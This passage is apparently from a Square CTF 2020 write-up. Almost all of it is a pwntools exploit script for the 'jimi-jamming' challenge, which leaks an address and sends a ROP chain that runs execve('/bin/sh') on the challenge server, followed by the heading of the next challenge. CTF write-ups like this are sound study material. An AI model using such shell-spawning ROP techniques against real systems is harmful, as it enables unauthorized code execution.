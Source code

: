 This is rather straight forward and may look like [this](jimi-jamming/x.py):
```python
from pwn import *
import sys

# io = process(["./jimi-jamming"], env={ "LD_PRELOAD": "./libc.so.6" })
# io = process(["./jimi-jamming"])
io = remote("challenges.2020.squarectf.com", 9001)

io.recvuntil(b"somewhere\n")
key = b"\x0f\x05/bin/sh\x00"
io.send(key)
io.recvuntil(b"key?\n")
key_offset = 8
io.send(str(key_offset).encode("utf-8"))

io.recvline()
center = io.recvline().rsplit(b" ", 1)[-1].strip()
jail = int(center.decode("utf-8")[2:], 16)
base = jail - 0x6000

print("jail", hex(jail))
print("base", hex(base))

io.recvline()

pop_rdi = 0x0000000000000daf + jail;
pop_rax = 0x0000000000000dcf + jail;
pop_rsi = 0x0000000000000d3f + jail;
pop_rdx = 0x00000000000007df + jail;
syscall = key_offset + jail;
slope = jail

print("key at ", hex(jail + key_offset))

rop = p64(pop_rdi) + p64(jail + key_offset + 2) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rdx) + p64(0) + \
        p64(syscall)

payload = p64(0) * 4 + p64(slope) + rop
io.sendline(payload)
io.interactive()
```

<a name="happy_fun"></a>

## Happy Fun Binary (rev)

Before we start: Shout-out to the authors, I think it was a pretty cool challenge!
